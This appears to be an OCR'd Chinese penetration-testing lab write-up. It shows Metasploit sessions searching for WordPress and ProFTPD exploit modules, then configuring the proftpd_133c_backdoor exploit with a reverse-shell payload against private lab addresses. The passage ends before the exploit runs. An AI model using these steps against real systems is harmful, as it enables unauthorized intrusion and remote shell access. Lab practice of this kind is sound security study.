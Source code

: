 ```bash

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_133c_backdoor

msf6 > search OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
[-] No results from search
msf6 > search Apache httpd 2.4.18 ((Ubuntu))
[-] No results from search

# 发现一个可利用模块：exploit/unix/ftp/proftpd_133c_backdoor

-----------------------------------方法二----------------------------------
# 结合上面的信息搜集，发现一个wordpress站点，并成功进入其后台网站，尝试搜索是否有可用模块
msf6 > search type:exploit name:wordpress

Matching Modules
================

   #   Name                                                           Disclosure Date  Rank       Check  Description
   -   ----                                                           ---------------  ----       -----  -----------
   0   exploit/multi/php/wp_duplicator_code_inject                    2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   1   exploit/multi/http/wp_ait_csv_rce                              2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   2   exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  Yes    WordPress Admin Shell Upload
   3   exploit/unix/webapp/wp_asset_manager_upload_exec               2012-05-26       excellent  Yes    WordPress Asset-Manager PHP File Upload Vulnerability
   4   exploit/multi/http/wp_crop_rce                                 2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   5   exploit/multi/http/wp_file_manager_rce                         2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution

# 这里只能参考翻译和经验来找可用的模块了
# 模块 exploit/unix/webapp/wp_admin_shell_upload 也是可用的
```

模块利用

```
sf6 > use exploit/unix/ftp/proftpd_133c_backdoor
[*] Using configured payload cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options 

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.231.136  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.231.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```